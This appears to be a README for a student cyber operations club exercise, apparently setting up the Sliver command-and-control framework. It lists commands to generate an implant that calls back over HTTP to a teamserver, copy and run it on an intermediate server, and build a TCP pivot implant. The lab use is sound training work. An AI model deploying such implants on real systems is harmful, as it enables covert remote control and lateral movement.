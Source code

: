 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
Copy over to Intermediate server: `scp [Implant Name] Intermediate@[IP of Intermediate Server]:/home/Intermediate/Documents`\
Run Implant: `./[Implant Name] &`
View sessions: `sessions`
Use the Implant: `use [session number]`
Create a pivot through that implant: 
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port]`
